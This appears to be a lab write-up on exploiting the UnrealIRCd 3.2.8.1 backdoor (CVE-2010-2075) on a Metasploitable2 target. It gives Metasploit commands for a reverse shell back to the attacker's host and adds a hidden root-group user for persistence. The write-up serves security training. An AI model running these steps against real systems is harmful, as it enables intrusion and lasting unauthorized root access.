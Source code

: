 # Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
    ![Nmap Scan Result](images/Scan.png) 

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.
    ![Metasploit Search Result](images/Search.png)

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.
    ![Exploit Run Result](images/Exploit.png) 

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.
    ![Root Access Proof](images/whoami.png) 
    
### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).

![New User Creation](images/newuser.png)

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.